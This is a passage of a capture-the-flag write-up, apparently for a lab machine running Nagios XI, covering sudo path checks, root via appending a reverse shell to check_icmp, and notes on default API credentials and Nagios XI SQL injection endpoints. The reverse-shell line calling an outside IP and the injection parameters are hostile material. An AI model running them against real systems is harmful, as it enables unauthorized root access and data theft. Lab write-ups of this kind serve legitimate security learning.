 ```
-r-xr-x--- 1 root nagios 999 Nov  9 10:44 /usr/local/nagiosxi/etc/xi-sys.cfg
-rw-r----- 1 root nagios 33 Jan 18 11:21 /home/nagios/user.txt
```

Check `sudo` whether `secure_path` 
```bash
sudo -l | grep secure_path | awk -F= '{print $2}' | sed 's/\\:/\n/g'
ls -la $ManuallyDirUpAtATime
# Get all file permissions in those directories 
sudo -l | grep secure_path | awk -F= '{print $2}' | sed 's/\\:/\n/g' | xargs -I {} ls -la {}
```


#### ROOT!

After all that the biggest lesson of this box is that I need to make sure I read , even if it probably a false positive
- W means append not just write over a file - depending on group and user ownership you maybe able to append, but not write. 
```bash
echo '/bin/bash -i &>/dev/tcp/10.10.14.71/4442 <&1' | tee -a check_icmp
```
ls -l
![](appendingtocheckicmp.png)


## Post Root Reflection

- Being on team at the time is the best part, catching up is not as fun, but has some merits as to reversing how other found things and what you aren't used to looking for - API docs download in the linked pdf
- READ
- READ
- READ
- Append is another kind of write!

## Beyond Root

Nagios And NagiosXI
```
/nagios
/nagiosxi/login.php
```


- https://support.nagios.com/forum/viewtopic.php?f=16&t=58783
```bash
curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=nagiosadmin&valid_min=5'
```

[Outpost24 Ghost Labs Vulnerability Research department - Nagios xi vulnerabilities](https://outpost24.com/blog/nagios-xi-vulnerabilities/)
SQLi against Nagiosxi  entails *`xi_session` and `xi_users` table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets.*
- SQL Injection in Banner acknowledging endpoint (CVE-2023-40931)
	- `/nagiosxi/admin/banner_message-ajaxhelper.php`
	- `action=acknowledge_banner_message&id=3`
- SQL Injection in Host/Service Escalation in CCM (CVE-2023-40934)
	- requires additional privileges
	- `/nagiosxi/includes/components/ccm/index.php`
	- `tfFirstNotif`, `tfLastNotif`, and `tfNotifInterval` are assumed to be trusted
- SQL Injection in Announcement Banner Settings (CVE-2023-40933)
	- requires additional privileges
	- `/nagiosxi/admin/banner message-ajaxhelper.php`
	- `update_banner_message_settings` action on the affected endpoint, the `id` parameter is assumed to be trusted